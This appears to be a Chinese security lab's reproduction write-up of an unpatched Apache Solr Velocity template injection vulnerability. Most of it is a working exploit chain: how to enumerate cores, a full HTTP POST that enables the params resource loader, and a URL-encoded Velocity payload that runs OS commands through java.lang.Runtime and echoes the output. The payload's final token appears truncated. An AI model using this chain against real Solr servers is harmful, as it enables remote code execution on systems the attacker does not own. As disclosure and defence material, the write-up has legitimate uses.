#### 漏洞介绍

近日,国外安全研究员 s00py 公开了一个 Apache Solr 的 Velocity 模板注入的漏洞.经过亚信安全网络攻防实验室研究,发现该0day漏洞真实存在,并且
可以攻击最新版本的Solr.目前该漏洞利用详情已经广泛流传于Github以及各大安全群,且公开的EXP可以执行任意命令并自带回显.官方暂未发布补丁

#### 影响范围

Solr version: >5,在8.2.0环境中测试成功

#### 复现过程

###### 0x01 获取core名

![](assets/cores.png)

或者访问/solr/admin/cores?wt=json，个人更推荐这种方式，因为这种方式在写poc时可以很方便的获取cores

![](assets/cores2.png)


###### 0x02 修改配置

开启params.resource.loader.enabled，发送如下请求

```
POST /solr/core_name/config HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 229
Origin: ip
Connection: close
Referer: xxxxx
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

{
"update-queryresponsewriter": {
"startup": "lazy",
"name": "velocity","class": "solr.VelocityResponseWriter",
"template.base.dir": "",
"solr.resource.loader.enabled": "true",
"params.resource.loader.enabled": "true"
}
}
```
注意下图圈起来的部分替换为我们第一步获取到的core名（任意一个都行）
![](assets/config.png)

###### 0x03 执行命令

`
/solr/hot_search/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23en`

执行结果如下

![](assets/poc.png)


#### python_poc

暂不放出，由于漏洞曝光不久，扫描结果显示漏洞主机有很多

![](assets/result.png)